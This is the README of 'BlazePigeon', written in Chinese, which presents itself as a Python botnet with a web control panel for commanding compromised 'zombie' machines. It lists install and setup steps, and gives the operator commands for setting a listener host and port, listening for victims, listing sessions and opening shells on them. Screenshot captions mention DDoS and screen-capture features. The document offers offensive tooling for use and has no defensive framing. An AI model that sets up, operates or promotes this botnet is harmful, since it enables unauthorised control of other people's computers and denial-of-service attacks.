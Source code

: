 # BlazePigeon

## 介绍
BlazePigeon是一款的群控框架，使用python打造的僵尸网络，有web控制面板，可以在web端控制肉鸡。


## 安裝教程
```shell
pip install mysql

pip install lxml

pip install pywin32api

pip install requests
```

## 使用說明
- 进入BlazePigeon文件夹，启动web服务

```shell
python manage.py runserver 80 
```

- 打开http://127.0.0.1/client_setting/ ，设置客户端连接地址端口版本号
- 打开server.py  python server.py，进入之后设置ip 和 port

```shell
set lhost xxxx

set lport xxxx 
```

- 使用exploit命令 进行监听客户端
- 使用sessions命令 进行查看当前在线肉鸡数 
- 使用 shell 命令 控制肉鸡shell 
- 使用 exit 命令 推出程序

## 展示

- Login

![img1](./docs/imgs/img.png)

- Home

![img.png](img.png)

- Client Setting

![img_1.png](img_1.png)

- DDos Setting

![img_2.png](img_2.png)

- Screen Shoot